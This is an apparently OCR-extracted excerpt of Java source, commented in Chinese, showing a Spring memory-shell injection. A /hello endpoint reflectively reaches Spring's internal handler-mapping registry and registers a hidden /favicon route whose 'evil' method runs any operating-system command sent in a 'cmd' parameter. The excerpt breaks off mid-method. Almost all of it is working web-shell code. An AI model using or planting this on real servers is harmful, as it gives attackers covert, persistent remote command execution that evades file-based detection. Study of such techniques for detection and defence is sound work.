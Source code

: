 ```plain
 * Created by dotast on 2022/11/25 16:37
 */
@Controller
public class HelloController {

    @ResponseBody
    @RequestMapping("/hello")
    public String SayHello(HttpServletRequest req, HttpServletResponse resp){
        String path = "/favicon";
        try{
            // 加载类
            HelloController helloController = new HelloController();
            Method evilMethod = HelloController.class.getMethod("evil", HttpServletRequest.class, HttpServletResponse.class);
            // 获取上下文环境
            WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            // 通过 context 获取 RequestMappingHandlerMapping 对象
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            // 获取父类的 MappingRegistry 属性
            Field f = mappingHandlerMapping.getClass().getSuperclass().getSuperclass().getDeclaredField("mappingRegistry");
            f.setAccessible(true);
            Object mappingRegistry = f.get(mappingHandlerMapping);
            //路径映射绑定
            Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
            configField.setAccessible(true);
            // springboot 2.6.x之后的版本需要pathPatternsCondition
            RequestMappingInfo.BuilderConfiguration config = (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
            RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).options(config).build();

            // 反射调用 MappingRegistry 的 register 方法
            Class c = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");
            Method[] methods = c.getDeclaredMethods();
            for (Method method:methods){
                if("register".equals(method.getName())){
                    // 反射调用 MappingRegistry 的 register 方法注册
                    method.setAccessible(true);
                    method.invoke(mappingRegistry,requestMappingInfo,helloController,evilMethod);
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }

        return "Hello!";
    }

    public void evil(HttpServletRequest request, HttpServletResponse response) throws Exception{
        try{
            String cmd = request.getParameter("cmd");
            if(cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes,0,a);
                }
```